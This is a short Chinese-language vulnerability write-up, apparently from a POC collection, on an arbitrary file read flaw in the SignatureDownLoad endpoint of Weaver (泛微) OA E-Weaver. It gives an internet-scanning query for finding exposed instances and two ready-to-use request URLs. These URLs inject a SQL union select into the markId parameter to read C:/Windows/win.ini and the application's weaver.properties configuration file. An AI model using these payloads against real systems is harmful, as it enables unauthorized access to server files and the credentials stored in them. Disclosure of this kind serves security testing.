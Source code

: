 # 

# 泛微OA E-Weaver SignatureDownLoad 任意文件读取漏洞

## 漏洞描述

泛微OA E-Weaver SignatureDownLoad接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器任意文件

## 漏洞影响

泛微OA E-Weaver

## 网络测绘

```
app="泛微-E-Weaver"
```

## 漏洞复现

![image-20220706133659005](./images/202207061336151.png)

验证POC

```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27C:/Windows/win.ini%27
```

![image-20220706133707852](./images/202207061337908.png)

```
/weaver/weaver.file.SignatureDownLoad?markId=0%20union%20select%20%27../ecology/WEB-INF/prop/weaver.properties%27
```

![image-20220706133717202](./images/202207061337932.png)
